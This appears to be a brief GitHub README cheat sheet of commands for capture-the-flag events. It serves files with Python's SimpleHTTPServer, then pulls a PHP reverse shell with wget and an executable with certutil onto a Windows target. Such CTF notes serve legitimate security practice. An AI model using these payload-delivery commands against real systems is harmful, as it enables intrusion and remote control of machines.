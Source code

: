 # CTF-cheat-sheet
Some useful commands I use when participating in CTF events.

File transfer using SimpleHTTPServer - a Pyhton webserver
sudo python -m SimpleHTTPServer 80
wget http://10.10.10.10/php-reverse-shell.php
certutil -urlcache -f httP://10.10.14.9/sh.exe C:\users\administrator\desktop\flags\sh.exe

